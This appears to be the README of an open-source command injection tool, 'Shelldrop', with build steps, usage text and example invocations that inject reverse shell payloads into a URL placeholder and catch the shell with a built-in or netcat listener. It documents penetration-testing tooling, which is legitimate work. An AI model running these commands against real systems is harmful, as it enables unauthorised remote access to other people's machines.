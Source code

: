 # Shelldrop

A command injection exploitation tool that leverages an injection point by automatically finding and testing for compatible reverse shell payloads.

Shelldrop works by injecting payloads into the provided `SHELLDROP` keyword/placeholder.

**Features:**

- Configurable injection point
- Automatic payload detection
- Built-in listener
- Flexible configuration

![til](./demo/demo.gif)

## Build

```bash
git clone https://github.com/shhrew/shelldrop
cd shelldrop
go build -o shelldrop
```

## Usage

```bash
usage: shelldrop [-h|--help] -u|--url "<value>" -l|--lhost "<value>" -p|--lport
                 <integer> [-P|--payload "<value>"] [--no-listener]

                 Leverages a command injection vulnerability by finding and
                 executing compatible reverse shell payloads.

[*] = Asterisked arguments can contain the SHELLDROP injection keyword

Arguments:

  -h  --help         Print help information
  -u  --url          The target url [*]
  -l  --lhost        The listen address
  -p  --lport        The listen port
  -P  --payload      Optional payload to use
      --no-listener  Disable the built-in listener
```

## Examples

#### URL Injection

```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP"
```

#### Using Specific Payload

```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" -P bash_tcp_1
```

#### Using External Listener
```bash
# Start your own listener first
nc -lvp 4444

# Run shelldrop with built-in listener disabled
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" --no-listener
```
